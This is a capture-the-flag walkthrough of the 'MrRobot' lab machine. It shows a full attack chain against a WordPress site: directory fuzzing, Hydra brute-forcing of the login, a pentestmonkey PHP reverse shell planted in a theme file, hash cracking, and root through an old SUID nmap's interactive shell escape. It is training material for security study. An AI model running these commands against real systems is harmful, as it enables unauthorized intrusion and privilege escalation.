<div align="center">


# MrRobot

**Difficulty:** Medium
**Category:** Web, Priv Esc

</div>

---


```bash
nmap -sV -sC 10.80.134.87 -oN mrRobot-nmap.txt
```

We find ports:
* 22
* 80
* 443


The http website lets me enter a few commands and a story is placed. I dont think there is anything that is injectable here.

```bash
ffuf -u http://10.80.134.87/FUZZ -w /usr/share/wordlists/dirb/big.txt
```



I found all of these directories, `wp` indicates it is a wordpress site, I will use `wpscan`.

```bash
wpscan --url http://10.80.134.87/wp-login.php --api-token <REDACTED>
```

By using our `API token` from `wpscan.com` we can get a vulnerability scan:



Bomboclat!

I will not type them all, but we should be able to find something here.

The wordpress version is `4.3.1`.


By looking through the directories found from the fuzzing I find this in `robots.txt`:



Going to that URL gives me the first key:

```
073403c8<REDACTED>fb30724b9
```

We also find the file `fsocity.dic` which is a wordlist of known "phrases" or "tags" from the show. This can be used for the brute forcing, both username and password?


At wp-login.php I get a very verbose error message when trying to log in:


I am going to use the wordlist we found to find a valid username, I got to use some vim commands since the words printed with spaces in front of them:

```vim
:%s/\ \ //g
```
Replaces two spaces with empty.

I use hydra for this:

```bash
hydra -L fsocity.dic -p test 10.80.134.87 http-post-form '/wp-login:log=^USER^&pwd=^PASS^&wp-submit="Log In"&redirect_to="http%3A%2F%2F10.80.134.87%2Fwp-admin%2F"&testcookie=1:Invalid username'
```

This payload is gotten from looking at burpsuite: 



This is the POST request after intercepting a log in attempt.



I use test as a password since we are only trying to find a valid username, which we do!

I got the same results from:

```bash
hydra -L users -p test 10.80.134.87 http-post-form '/wp-login:log=^USER^&pwd=^PASS^:F=Invalid username' 
```

So, we do not need to send all that extra data, is it still being appended? Or are we just not sending it at all? 

**Wordpress still processes the post request with just the username and password parameters, it does not need the cookie and redirect info**. 

We have the username `elliot`.

When we use a correct username we get this:



I use the wordlist for passwords as well:

```bash
hydra -l elliot -P fsocity.dic  10.80.134.87 http-post-form '/wp-login:log=^USER^&pwd=^PASS^:F=The password you entered for the username' -v
```



I found it to be his employee number: `ER28-0652`.

Now we can log in and access `/wp-admin`.

I can enter `Appearance` -> `Editor` and edit a php site to get me a shell. I find a shell at https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php which is a standard pentestmonkey shell.

I put this in `archive.php` and change:



Now I go to `/wp-content/themes/twentyfifteen/archive.php`. This is where the themes pages can be found. **Twentyfifteen** because it is the theme I edit the page in:



I get a shell!



Upgrade to a fully interactive tty shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + z
stty raw --echo; fg
export TERM=xterm
```

I cannot check sudo permissions since I dont have the password for the user `daemon`. I can find a password md5 file in `/home/robot/password.raw-md5`.

```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

This was easily cracked using https://crackstation.net, gave me:

```
abcdefghijklmnopqrstuvwxyz
```

Now I can ssh as `robot`

```bash
ssh robot@10.80.134.87
# pwd abcdefghijklmnopqrstuvwxyz
cat /home/robot/key-2-of-3.txt
822<REDACTED>b39f959
```


```bash
find / -not -path "/home/robot/*" -not -path "/snap/*" -not -path "/sys/*" -not -path "/proc/*" -writable 2>/dev/null
```

This shows me `/opt/bitnami/licenses/cyrus-sasl.txt` which introduces me to bitnami, which is also run in `/etc/crontab`:



"Bitnami is a platform that provides pre-packaged, ready-to-run application stacks, virtual machines, and container images to simplify software deployment across local, cloud and container environments".

I think this is to set up the box, since it runs every hour at :02. Which means we would have to wait a while for it to execute, if we miss it we need to wait another hour...

Look for `SUID` binaries:
```bash
find / -perm -4000 2>/dev/null
```



`nmap`? Owned by root:



```bash
nmap --version 
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
```

I look at https://nmap.org and the newest version is `7.99`. So this is an OLD version.

I look at https://gtfobins.org and find an entry for `nmap`. It has a `SUID` field that uses nmap's interactive mode to gain privileges:

```bash
nmap --interactive
!sh
```

We enter interactive mode (as root) and execute the "external command" `sh` with `!sh`:



Hah, najs!

```bash
cat /root/key-3-of-3.txt
04787dd<REDACTED>21670b4e4
```